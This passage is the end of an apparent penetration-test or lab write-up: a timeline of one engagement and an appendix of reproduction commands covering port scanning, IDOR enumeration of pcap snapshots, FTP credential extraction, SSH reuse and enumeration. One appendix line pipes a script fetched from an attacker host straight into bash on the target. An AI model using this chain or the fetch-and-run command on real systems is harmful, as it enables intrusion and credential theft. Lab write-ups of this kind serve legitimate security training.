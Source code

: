 
## 8. Timeline (actions performed)
- **2025-09-13 10:15 ET** — Reconnaissance (nmap/rustscan): discovered ports 21, 22, 80.  
- **2025-09-13 10:40 ET** — Web enumeration & source inspection: discovered Security Snapshot feature.  
- **2025-09-13 11:05 ET** — IDOR exploitation: retrieved enumerated snapshots (IDs 0..10).  
- **2025-09-13 11:25 ET** — PCAP analysis (Wireshark): extracted FTP plaintext credential from a snapshot.  
- **2025-09-13 11:50 ET** — Credential reuse to SSH (foothold): authenticated as `nathan`.  
- **2025-09-13 12:10 ET** — Local enumeration & linPEAS: identified capabilities on `/usr/bin/python3.8`.  
- **2025-09-13 12:18 ET** — Privilege escalation & root shell obtained using Python capability abuse.

---

## 9. Appendix A — Commands run / Tools used (PoC reproduction steps)
> **Warning:** Only run these steps in an authorized test environment.

**Network & host discovery**
```bash
nmap -sC -sV -oN nmap_initial <TARGET_IP>
rustscan -a <TARGET_IP> -r 1-65535
```

**Web enumeration**
```bash
feroxbuster -u http://<TARGET_IP> -w /usr/share/wordlists/...
dirb http://<TARGET_IP> /usr/share/wordlists/...
# view HTML source and robots.txt from a browser
```

**IDOR enumeration (example)**
```bash
# Snapshot URL pattern: http://<TARGET_IP>/data/<ID>
curl http://<TARGET_IP>/data/0 -o snapshot0.pcap
curl http://<TARGET_IP>/data/1 -o snapshot1.pcap
# iterate IDs to enumerate available snapshots
```

**PCAP analysis**
- Open `snapshotX.pcap` in Wireshark and filter for FTP traffic:
```
ftp
```
- Inspect FTP `USER` / `PASS` packet payloads for credentials.

**Credential reuse**
```bash
ssh nathan@<TARGET_IP> -p 22
# provide password recovered from PCAP
```

**Local enumeration**
```bash
# Host enumeration and linPEAS execution (example)
# On attack box:
sudo python3 -m http.server 80
# On target (as nathan):
curl http://<ATTACKER_IP>/linpeas.sh | bash
```
